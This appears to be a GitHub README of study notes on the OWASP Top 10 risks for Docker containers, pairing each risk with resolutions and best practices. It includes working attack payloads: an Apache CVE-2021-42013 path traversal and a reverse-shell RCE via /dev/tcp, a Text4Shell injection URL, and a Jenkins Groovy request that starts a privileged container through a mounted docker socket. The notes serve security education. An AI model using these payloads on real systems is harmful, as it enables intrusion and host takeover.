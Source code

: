 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
  
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
  
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>

<details> 
<summary> 3: Insecure Container Configurations </summary>
  
- Misconfigurations may lead to disclose of sensitive date.
- Resolution: Implementation security measures like runtime security amd configuration management.
- Best practises: Implementation of Network segmentation, process isolation and orchestratrion (like kubernetes have default security measures)
- Best Practises: Add necessary access / remove unnecessary access like below examples:
drops capability to modify time -- ``` docker run --cap-drop=SYS_TIME -d my-image ```
Adds Network Bind Service -- ``` docker run --cap-add=NET_BIND_SERVICE -d my-image ```
- Conduct security assessments.
  
### Example: 
- We can set environment variables in Docker file. Setting credentails as Environment variables may disclose them.
</details>


<details> 
<summary> 4: Container Escape Vulnerabilities </summary>
  
- Breaking out from the container is known as "container escape". It allows an attacker to escape from a container to other container or underlying host and gain access to them.
- Option like --privileged may give access to all host systems. It is the same as executing a process with root privileges on the host machine.
``` docker run --privileged -it --name my-container my-image ```
- Resolution: Implementation security measures like runtime security and process isolation
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Best Practises: Keep containers updated.
- Conduct security assessments.

</details>

<details> 
<summary> 5: Inadequate Process Isolation </summary>
  
- Process running in different conmtainers may interact with each other. 
- This can lead to cross container compromise and data breaches.
- Resolution: Implementation process isolation through Namespace isolation (It Isolates Network, File system) and cgroups (Helps to limit resources that container can consume like CPU, memory, I/O)
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --pid when starting the container. Process runnin gunder the pid cannot access process on host system. 
``` docker run --pid=container -d my-image ```
- Limit CPU usage when starting container.
``` docker run --cpu-share=512 --memory=512m --memory-swap=1g -d my-image ```  

### Cross Container Compromise with SYS_PTRACE capability
- SYS_PTRACE is a linux kernal process / capability which traces and debugs other process. It can reads / modifies memory, registry and extract sensitive data.

</details>
<details>
<summary> 6: Inadequate Network Segmentation
  
- Can lead to Data exfilteration and unauthorised access.
- Containers are their networks are not properly isolated from eachother.
- Resolution: Implementation of network segmentation will isolate containers from each other.
- Virtual networks will Isolates Network traffic, firewalls controls inbound and Outbound network traffic and security groups will limit network traffic.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --network option ```docker run --network=my-network -d my-image```
</details>

<details>
<summary> 7: Inadequate Logging and Monitoring
  
- Logging helps in detecting and resposding to attacks.
- All important events in containers need to be logged.
- Resolution: Collect logs from host system, Conatinerns and orchestration platform.
- Best practises: Use SIEM tools to detect and respond in real-time.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
</details>

<details>
<summary> 8: Insecure Data Storage in Containers 
  
- May lead to data breaches. Sensitive data maynot be properly secured.
- Resolution: Encrypt sensitive data, use secure storage options like NAS (Network attached Storage) or SAN (Styorage area networks)
- Best practises: Use access controls like RBAC (role-based access control).
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- use option -v , while starting a container, to mount a host directory as a data volume inside a container.
``` docker run -v /data:/data -d my-image ```
- Even after container is deleted, mounted data will be secured in host system.
- Use NAS / SAN as data volume using --mount option. This allows more flexibility to specify the type of mount (like bind, read-only, consistency). 
``` docker run --mount type=bind, source=/data, target=/data -d my-image ```

</details>

### Mounting a Docker Socket (docker.sock)
- Mounting Docker socket will make docker daemon hosts's unix socker available inside the container.
- It allows container to interact with docker host and access docker api to run / manage containers.
- This is a security risk, as container will have full access to docker host. So it need to be done with trusted containers.
- Can use option -v / --mount in docker run command and specify path of docker socket in host and target path inside the container.
- It can start / stop containers, mnodify images, accessing hor file systems.
- If Attacker gain access to this container, he can use mounted docker socket to control docker deamon and take over host system.
- Best practise: Use a seperate container to manage docker deamon.

``` docker run -d -p 8080:8080 --rm -v /var/run/docker.scok:/var/run/docker.sock --name jenkins -t vuln-jenkins:latest ```

 ![image](https://github.com/Vamckis/Container-Security/assets/71128825/03976075-072a-4902-a561-179c2d394388)
 - Creating ngnix container with --privileged option
``` curl -k -4 -X POST "http://localhjost:8080//descriptorByName/org.jenkins.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d 'value=class abcd{abcd(){"docker run -P --rm --privileged --name ngnix".execute()}}' ``` </br>
![image](https://github.com/Vamckis/Container-Security/assets/71128825/a0f2868f-62da-462b-905a-d2d953111f4c)


### References:
- https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities
- https://github.com/ec-council-learning/OWASP-Top-10-for-Docker-Containers-and-Kubernetes-Security

